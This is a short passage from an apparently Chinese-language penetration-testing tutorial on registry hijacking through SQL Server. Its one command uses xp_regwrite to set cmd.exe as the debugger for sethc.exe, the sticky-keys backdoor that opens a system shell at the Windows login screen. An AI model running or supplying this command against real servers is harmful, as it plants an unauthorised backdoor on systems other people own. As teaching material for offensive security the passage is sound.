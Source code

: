 <img src="assets/zdrRLb8Aq9xKijH.png" alt="image-20230321133234359" style="zoom:50%;" />

### 4.5.3. 注册表劫持

利用regwrite函数修改组注册表进行劫持。

```mssql
EXEC master..xp_regwrite @rootkey='HKEY_LOCAL_MACHINE',@key='SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.EXE',@value_name='Debugger',@type='REG_SZ',@value='c:\windows\system32\cmd.exe'
```

<img src="assets/ArUzyKVM4d9NSFh.png" alt="image-20230321133433465" style="zoom:50%;" />
